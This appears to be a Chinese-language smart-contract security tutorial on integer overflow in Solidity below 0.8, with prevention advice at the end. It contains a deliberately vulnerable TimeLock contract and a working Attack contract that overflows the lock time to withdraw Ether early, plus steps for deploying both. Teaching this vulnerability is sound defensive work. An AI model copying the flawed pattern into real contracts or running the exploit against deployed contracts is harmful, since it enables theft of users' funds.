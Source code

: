 # 67.Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


这个合约被设计成一个时间保险箱。
用户可以向此合约存款，但至少需要等待一周后才能取款。
用户也可以延长等待时间超过一周。

1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太币。您将立即能够取回您的以太币。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8默认情况下在发生溢出/下溢时会抛出错误。

## remix验证
1. 部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.jpg](img/67-1.jpg)